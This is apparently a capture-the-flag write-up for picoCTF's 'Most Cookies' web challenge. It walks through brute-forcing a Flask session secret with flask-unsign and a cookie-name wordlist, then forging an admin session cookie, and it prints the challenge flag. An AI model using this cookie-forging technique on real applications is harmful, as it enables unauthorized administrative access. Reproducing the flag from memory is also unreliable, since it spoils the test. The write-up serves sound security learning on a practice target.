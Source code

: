 Most Cookies
===
Challenge Details
---
![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196559439-90168289-f9fc-4154-8969-1f7f11a4b7ce.png)

---
##### <a href="https://play.picoctf.org/practice/challenge/177?category=1&page=2">link to the challenge</a>
---
Solution
---  

after analyzing the[`server.py`](https://github.com/Wise-Cpt/CTF-Writeups/blob/main/Web/picoCTF-Most%20Cookies/server.py)  file. I found these two pieces of code very useful
```
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196553894-69cbe908-0420-4175-92a4-aea8a2f8a676.png)

		flash(message, category)![picoCtf_Most_cookies](https://user-images.githubusercontent.com/96666980/196553873-cee0e4ba-adbe-48c9-8deb-e16a8b0cbfef.png)

		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```

```
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

```  
**-The first one is about the secret key **
**-The second one is about the flag **

So in order to get the secret key it's clear that we can find it in the list 'cookie_names' in [`server.py`](https://github.com/Wise-Cpt/CTF-Writeups/blob/main/Web/picoCTF-Most%20Cookies/server.py). We can put the words in wordlist to use it later to brute force the secret key.
lets call the python script with `script.py` and the wordlist with `wordlist.txt`
```
words = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

print('\n'.join(words))
```
```
$ python3 script.py > wordlist.txt
```
Well, now we back to the second piece of code we see that if the check == "admin" in the session we get the flag.

lets get the session value from the website (click on inspect then Application>Cookies>session), and decode it with `flask-unsign`
```
$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y05xZQ._dy1eNGOeXsDZmGMww0lIHb_GFY"
```
output will be like this
```
{'very_auth': 'blank'}
```
now it's time to use the wordlist to get the secret key

```
$ flask-unsign --unsign --wordlist cookie_wordlist.txt --server "http://mercury.picoctf.net:65344/"
```
and we get the secret key which is 'fortune'

now lets change the value of 'very_auth' from 'blank to 'admin' 

```
$ flask-unsign --sign --secret 'fortune' --cookie "{'very_auth': 'admin'}"
```
output will be like this
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y09BCg.gyB58CCB-vkh54EuAzrRhDWc7iA
```
now just change the session value of the wbsite with this last one and reload the page you'll get the flag.
#### Flag:
 `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`


